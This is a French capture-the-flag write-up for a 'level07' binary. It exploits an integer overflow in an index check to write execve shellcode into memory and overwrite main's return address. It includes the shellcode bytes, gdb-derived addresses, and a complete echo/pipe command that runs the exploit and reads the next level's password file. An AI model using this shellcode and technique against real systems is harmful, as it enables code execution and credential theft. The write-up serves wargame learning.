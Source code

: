 L'executable nous ouvre "wil's crappy number storage service", qui lis sur
l'entree standard et interprete le resultat comme des commandes. Il y a 3
commandes:
- store: ecris 4 octets dans un tableau d'int a n'importe quel offset qui n'est
pas un multiple de 3
- read: lis 4 octets n'importe ou
- quit: sors de la boucle principale, vers le return du main

Comme aucune limite d'addresse n'est mise, on peux ecrire dans toute la memoire
disponible. A l'ecriture, comme on ne peux ecrire qu'a des index qui ne sont pas
des multiples de 3, mais que le check est effectue avant la multiplication par 4
(car tableau d'int), il est possible d'overflow, et d'ecrire dans chaque octet
de la memoire. Il n'est pas possible que l'octet de poids fort de la valeur
ecrite soit 0xb7, ce qui ne change strictement rien dans notre cas.

La marche a suivre est donc evidente:
-on met un shellcode dans le buffer (j'aime souffrir)
-on change la valeur de retour pour celle du buffer

Pour overflow, on ajoute 0x100000000 / 4 a notre valeur (1073741824).

Notre shellcode fait 23 octets, soit 6*4 octets. Il va donc falloir 6 commandes
store, chacune en decimal, et avec un offset augmente de 1073741824 pour les
multiples de 3 pour overflow :
- 0xC931C031 (3375480881)	-> offset 0 (1073741824)
- 0x6850D231 (1750127153)	-> offset 1 (1)
- 0x68732F6E (1752379246)	-> offset 2 (2)
- 0x622F2F68 (1647259496)	-> offset 3 (1073741827)
- 0xB0E38969 (2967701865)	-> offset 4 (4)
- 0x0080CD0B (8441099)		-> offset 5 (5)

Dans gdb, l'addresse de notre buffer est 0xffffd544.
L'addresse de retour de fgets est de:  
-0xffffd6d8 dans gdb  
-0xffffd6f8 en execution normale  
On en deduit donc que la difference est de 0x20 (32) octets, et que l'addresse
du buffer en execution normale est 0xffffd564.

On trouve dans gdb avec info frame que l'addresse de la valeur de return du main
est a 0xffffd70c, soit une difference de 456 avec l'addresse du buffer.  
456 / 4 = 114, l'offset de la valeur de return est donc de 114.

On fait donc un dernier store a l'offset 114 + 1073741824 pour overflow, de la
valeur de l'addresse du buffer (0xffffd564, 4294956388 en decimal):

	$ echo -en "store\n3375480881\n1073741824\nstore\n1750127153\n1\nstore\n1752379246\n2\nstore\n1647259496\n1073741827\nstore\n2967701865\n4\nstore\n8441099\n5\nstore\n4294956388\n1073741938\nquit\n" > /tmp/in
	$ (cat /tmp/in; echo "cat /home/users/level08/.pass") | ./level07
